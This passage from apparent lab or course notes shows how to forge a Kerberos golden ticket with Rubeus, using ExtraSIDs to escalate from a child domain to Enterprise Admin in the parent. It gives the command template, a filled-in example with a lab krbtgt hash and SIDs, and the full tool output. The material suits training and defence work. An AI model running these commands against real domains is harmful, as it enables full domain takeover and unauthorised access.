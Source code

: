 ```bash
```

This can also be done using `Rubeus`

```bash
.\Rubeus.exe golden /rc4:<krbtgt_NTLM_hash> /domain:<Our_current_child_domain> /sid:<sid_of_child_domain> /sids:<sid_of_enterprise_admins_group> /user:hacker /ptt
```

Example:

```bash
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 3/29/2022 10:06:41 AM
[*] StartTime      : 3/29/2022 10:06:41 AM
[*] EndTime        : 3/29/2022 8:06:41 PM
[*] RenewTill      : 4/5/2022 10:06:41 AM

[*] base64(ticket.kirbi):
      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
      T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
<--SNIP-->

[+] Ticket successfully imported!
```
